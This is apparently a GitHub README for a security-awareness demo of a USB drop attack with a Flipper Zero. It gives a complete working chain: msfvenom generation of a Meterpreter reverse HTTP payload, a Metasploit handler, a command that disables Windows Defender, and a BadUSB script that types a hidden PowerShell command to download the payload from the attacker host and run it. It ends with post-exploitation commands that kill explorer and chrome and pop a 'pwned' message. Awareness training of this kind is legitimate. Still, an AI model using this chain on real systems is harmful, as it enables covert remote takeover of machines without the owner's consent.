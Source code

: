 # FlipperZero_Metasploit_Demo

## Overview

This demo showcases a simulated USB drop attack using **Flipper Zero** with a **BadUSB payload**, delivering a **reverse Meterpreter shell** to a Kali Linux machine and executing a GUI-based post-exploitation effect on the target Windows system. The objective is to raise awareness among non-technical audiences about how seemingly harmless USB devices can lead to complete system compromise.

The payload includes a reverse shell, custom ASCII art, and a Notepad popup that reinforces the impact — all executed with zero user interaction beyond the USB plug-in.

---

## 🖥️ Hardware & Tools Required

* **Flipper Zero** (with BadUSB functionality enabled)
* **Kali Linux VM** (tested on 2025.2)
* **Windows 10/11 VM** (with Windows Defender disabled)
* VirtualBox / VMware / Hyper-V or similar hypervisor
* Internet access (for initial setup only)

---

## ⚙️ Setup Instructions

### 1. Kali Linux Setup

**Install Metasploit (if not installed):**

```bash
sudo apt update && sudo apt install metasploit-framework -y
```

**Generate payload (only once):**

```bash
msfvenom -p windows/meterpreter/reverse_http LHOST=<KALI_IP> LPORT=8080 -f exe -o payload.exe
```

Place `payload.exe` in a folder named `web_payload` and start a web server:

```bash
cd web_payload
python3 -m http.server 80
```

**Start Metasploit listener:**

```bash
msfconsole
```

```msf
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_http
set LHOST <KALI_IP>
set LPORT 8080
set ExitOnSession false
exploit -j
```

---

### 2. Windows VM Setup

* Disable Windows Defender:

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

* Ensure Windows and Kali VMs are on the same network (bridged or host-only).
* Note your Kali IP address using `ip a` or `ipconfig`.

---

### 3. Flipper Zero Script

Upload the following BadUSB script to your Flipper:

```txt
DELAY 1000
GUI r
DELAY 1000
STRING powershell
ENTER
DELAY 1500
STRING powershell -w hidden -nop -Command "iwr http://<KALI_IP>/payload.exe -OutFile $env:TEMP\payload.exe; Start-Process $env:TEMP\payload.exe"
ENTER
```

Replace `<KALI_IP>` with your Kali VM’s IP address.

---

## 🎯 How the Demo Works

1. Flipper types the PowerShell command that fetches and executes the payload.
2. Metasploit listener on Kali receives the reverse shell.
3. You gain a Meterpreter session and can interact with the target system.
4. For dramatic effect, Notepad opens with custom ASCII art and a scary message.

---

## 🎭 Visual Payload (Post-Exploitation)

Once session is active, run:

```msf
execute -f cmd.exe -a "/c tskill explorer & tskill chrome & timeout /t 1 >nul & echo   ░▒▓███████▓▒░   > %TEMP%\pwned.txt && echo ░▒▓██ YOU'VE BEEN ██▓▒░ >> %TEMP%\pwned.txt && echo   ░▒▓███  PWNED  ███▓▒░ >> %TEMP%\pwned.txt && echo     ░▒▓█████████▓▒░ >> %TEMP%\pwned.txt && echo. >> %TEMP%\pwned.txt && echo  Your system belongs to us... >> %TEMP%\pwned.txt && echo  Resistance is futile. >> %TEMP%\pwned.txt && echo  ▄︻̷̿┻̿═━一 💀💀💀💀💀 >> %TEMP%\pwned.txt && start notepad %TEMP%\pwned.txt"
```

---

## 💡 Optional Enhancements

* **Lock Input:**

```msf
run post/windows/manage/lockout_user
```

* **Take Screenshot:**

```msf
screenshot
```

---

## 🔁 Reproducibility Notes

* Use a fixed payload filename (like `payload.exe`) to avoid changing Flipper scripts.
* Network setup must ensure Windows can reach the Kali-hosted HTTP server.
* Metasploit must be started before payload is executed.

---

## 📌 Educational Purpose Only

This demo is intended solely for security awareness training within controlled environments. Never attempt this on unauthorized systems.

---

## 📷 Screenshots

* Reverse shell connection shown in Metasploit
* Notepad popup with ASCII message on Windows VM

---

## ✅ Status

Demo verified: **Working 100% with Flipper Zero BadUSB + Metasploit Reverse HTTP Payload**

---

## 🔗 Credits

* Original HoaxShell idea by Panagiotis Chartas
* Modified and repurposed by Teja for internal Siemens Energy Cybersecurity demo
